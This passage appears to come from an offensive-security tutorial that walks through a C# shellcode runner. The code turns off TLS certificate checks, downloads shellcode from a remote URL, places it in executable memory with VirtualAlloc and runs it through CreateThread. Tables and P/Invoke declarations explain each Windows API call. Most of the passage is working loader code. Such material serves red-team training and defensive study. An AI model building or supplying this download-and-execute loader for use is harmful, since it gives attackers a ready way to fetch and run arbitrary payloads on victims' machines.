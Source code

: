 ```csharp
    ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
    ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;

    byte[] shellcode = wc.DownloadData(url);

    UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```

First part of the code will import some windows API functions via P/Invoke. The functions we need are the following three from kernel32.dll
|   |   |
|---|---|
|**WinAPI Function**|**Description**|
|[VirtualAlloc()](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)|Allows us to reserve some memory to be used by our shellcode.|
|[CreateThread()](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread)|Creates a thread as part of the current process.|
|[WaitForSingleObject()](https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject)|Used for thread synchronization. It allows us to wait for a thread to finish before continuing.|



the part of the code in charge of importing these functions is the following:
```csharp
//https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualalloc 
[DllImport("kernel32")]
private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

//https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread
[DllImport("kernel32")]
private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

//https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject
[DllImport("kernel32")]
private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
```



